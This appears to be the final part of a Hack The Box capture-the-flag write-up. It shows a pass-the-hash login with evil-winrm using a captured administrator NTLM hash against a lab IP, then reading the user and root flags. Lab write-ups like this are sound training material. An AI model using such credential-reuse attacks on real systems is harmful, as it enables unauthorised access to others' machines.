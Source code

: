 There we go, we got our hash and can now authenticate using `evil-winrm`:


```
evil-winrm -u administrator -H 0d5b49608bbce1751f708748f67e2d34 -i 10.10.11.41

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

There we go, we successfully pwned this machine, let's read both flags:

```
*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
70ddf966d617b1cde86186bcb3a34f11
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e0b8d6567066b1694c8c65817163a553
```

![](Pasted%20image%2020250312125720.png)

https://www.hackthebox.com/achievement/machine/1872557/633


